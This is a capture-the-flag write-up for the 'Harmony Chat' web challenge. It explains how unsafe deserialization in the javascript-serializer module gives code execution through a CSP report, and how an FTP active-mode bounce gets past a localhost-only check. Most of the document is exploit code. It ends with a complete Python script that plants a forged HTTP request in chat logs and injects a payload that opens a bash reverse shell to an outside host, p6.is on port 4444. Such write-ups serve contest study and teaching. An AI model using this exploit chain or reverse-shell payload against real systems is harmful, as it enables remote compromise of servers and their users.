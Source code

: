 # Harmony Chat (web, 283p, 27 solves)

![main](./files/main.png)

Harmony Chat is Web Challenge implementing Chat application.

You can register/login user and inviting someone to chat room.

- [Source](./files/harmony.zip)



In utils.js, validateAndDecodeJSON calls fromJSON of `javascript-serializer` module.

`javascript-serializer` is supported to deserialize function similar with `node-serialize` known as one of vulnerable modules.

```js
const crypto = require("crypto")
const json = require("javascript-serializer")

const utils = {}

utils.validateAndDecodeJSON = (data, jsonSchema) => {
  const decoded = JSON.parse(data)

  const result = ajv.validate(jsonSchema, decoded)
  if (!result) {
    throw ajv.errorsText()
  }

  return json.fromJSON(decoded)
}
```

After deserializing input, the csp-report property of the result will be used to create report (which is string typed)

This means specific property of the report can be converted to string by calling their toString method.

```js
const handleReport = (req, res) => {
  let data = Buffer.alloc(0)

  req.on("data", chunk => {
    data = Buffer.concat([data, chunk])
  })

  req.on("end", () => {
    res.status(204).end()

    if (!isLocal(req)) {
      return
    }

    try {
      const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
      console.error(generateTextReport(report["csp-report"]))
    } catch (error) {
      console.warn(error)
      return
    }
  })
}

const generateTextReport = report => {
  let text = "\nContent Security Policy violation!\n"
  text += `Document URI: ${report["document-uri"]}\n`
  text += `Blocked URI : ${report["blocked-uri"]}\n`
  text += `Directive   : ${report["violated-directive"]}\n`
  text += `Full Policy : ${report["original-policy"]}\n`

  if (report["script-sample"]) {
    text += `Sample      : ${report["script-sample"]}\n`
  }

  let sourceInfo = ""
  if (report["source-file"]) {
    sourceInfo += report["source-file"]
  }

  if (report["line-number"]) {
    sourceInfo += `:${report["line-number"]}`
  }

  if (report["column-number"]) {
    sourceInfo += `:${report["column-number"]}`
  }

  if (sourceInfo.length > 0) {
    text += `Source      : ${sourceInfo}\n`
  }

  return text
}
```

from the [docs](https://github.com/wix-incubator/javascript-serializer), We could know `javascript-serializer` allows to construct object by setting `___js-to-json-class___` property.

So, below is actual input for executing script by `javascript-serializer`

```js
const data = `{"csp-report":{"blocked-uri":"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process)"}}}}`;

const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
console.error(generateTextReport(report["csp-report"]))
```

How to trigger, handleReport called when it received POST request for `/csp-report` route.

And their body will be given to argument of vulnerable point.

```js
const REPORT_URL = "/csp-report"

const ContentSecurityPolicy = (req, res, next) => {
  if (req.path === REPORT_URL &&
      req.method === "POST" &&
      req.headers["content-type"] === "application/csp-report") {
    handleReport(req, res)
    return
  }

  injectCSPHeaders(req, res)
  next()
}
```

but there's ip restriction for the handleReport function.

We should bypass this with ftp active mode.

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```

after writing valid http request to log,

We can transfer it to any host using ftp.

```python
from websocket import create_connection
import json, random
from pwn import *
import time

context.log_level = 'debug'

HOST = 'harmony-1.hackable.software'

def init():
    global channel_id, channel_id2, host_ws, user_id

    host_ws = create_connection(f'ws://{HOST}:3380/chat')

    host_ws.send('{"type":"register","displayName":"POST /csp-report?"}')
    res = json.loads(host_ws.recv())
    host_ws.recv()

    user_id = res['uid']
    print('[*] user id: ' + user_id)

    host_ws.send('{"type":"new-channel","name":"' + str(random.randint(10000, 99999)) + '"}')
    res = json.loads(host_ws.recv())
    
    channel_id = res['channels'][0]['chId']
    print('[*] channel id: ' + channel_id)

    payload = 'HTTP/1.1'
    host_ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(payload) + '}')

    host_ws.recv()

def save_msg(name, message):
    global channel_id, host_ws

    ws = create_connection(HOST)

    ws.send('{"type":"register","displayName":' + json.dumps(name) + '}')
    res = json.loads(ws.recv())
    ws.recv()

    user_id = res['uid']

    host_ws.send('{"type":"invite","chId":' + json.dumps(channel_id) + ',"uid":' + json.dumps(user_id) + '}')
    res = json.loads(host_ws.recv())

    ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(message) + '}')

    res = json.loads(ws.recv())

    ws.close()

# open channel for constructing log
init()

# writing HTTP header
save_msg('Content-Length', '345')
save_msg('Content-type', 'application/csp-report')
save_msg('Connection', 'close')

# message with no content adds new line
save_msg('RN', '')

save_msg('{"csp-report":{"blocked-uri"', """"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/4444 0>&1'`)+[])"}}}}""")

host_ws.close()

# ftp stage (bypassing host restriction)

p = remote(HOST, 3321)
p.sendline('user ' + user_id)
p.sendline('pass')

time.sleep(3)

p.sendline('PORT 127,0,0,1,13,52')
p.sendline('retr ' + channel_id)

p.interactive()
```